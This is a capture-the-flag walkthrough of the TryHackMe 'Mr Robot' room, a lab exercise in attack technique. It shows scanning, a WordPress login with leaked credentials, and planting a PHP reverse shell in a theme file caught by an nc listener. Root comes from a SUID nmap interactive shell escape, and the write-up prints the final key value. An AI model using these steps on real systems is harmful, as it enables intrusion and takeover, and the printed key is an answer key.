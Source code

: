 # Mr Robot CTF

[Room Link](https://tryhackme.com/room/mrrobot)

`nmap -A -sV -vv -T4 10.10.218.220`

nmap as usual

```
PORT    STATE  SERVICE  REASON       VERSION
22/tcp  closed ssh      conn-refused
80/tcp  open   http     syn-ack      Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
443/tcp open   ssl/http syn-ack      Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16:3b19:87c3:42ad:6634:c1c9:d0aa:fb97
| SHA-1: ef0c:5fa5:931a:09a5:687c:a2c2:80c4:c792:07ce:f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----
|_http-server-header: Apache
```

![image](https://github.com/user-attachments/assets/b5918dab-8c99-4f68-9e32-28ead8690e6e)

It's a high effort website, can explore the commands the good stuffs
I couldn't find anything useful for the CTF

Naturally I checked robots and license files

![image](https://github.com/user-attachments/assets/ce1a4b8f-7af8-42d5-bd33-36c59af7238f)
![image](https://github.com/user-attachments/assets/39e72006-a0d6-4b59-925a-c334ac6969c2)

On inspecting license part of the website

![image](https://github.com/user-attachments/assets/31694527-a101-4891-a72d-a5cf44d02f56)
![image](https://github.com/user-attachments/assets/73571d40-8672-44d0-919d-39582b69b2b7)

Some credentials, we will take a note

Ran dirbuster


![image](https://github.com/user-attachments/assets/fcf0f684-efb7-4f81-bf8f-52db76713e0f)

wp-login


![image](https://github.com/user-attachments/assets/d933f1b0-3096-408d-a24a-7626ddab1ebe)

Logging in using the found credentials


![image](https://github.com/user-attachments/assets/af9536d3-d8f3-4242-b531-aea27392580b)

LURK LURK LURK
TRY TRY TRY


![image](https://github.com/user-attachments/assets/a4ec5c33-7929-4b1a-8419-733fbbbf19ea)

I did and this was the result most of the time


![image](https://github.com/user-attachments/assets/081dd022-c205-4e72-b655-5b7dfba36024)

After digging deeper, I came across this
Editable, executable php files

Now, I used [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
replaced the file

`http://10.10.218.220/wp-includes/themes/TwentyFifteen/404.php`

`nc -lvnp 4443`


![image](https://github.com/user-attachments/assets/db94388a-d2d8-48ee-a434-d5d659b6a887)

Second key

Moving forward I figured that we need to privesc

```
$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
as `sudo -l` didn't work

we have nmap
checking in gtfobins


![image](https://github.com/user-attachments/assets/fcc44fd0-4fea-41ef-bcba-c239de139044)

tried both methods but only second one worked

```
$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
cd root
ls
firstboot_done
key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```













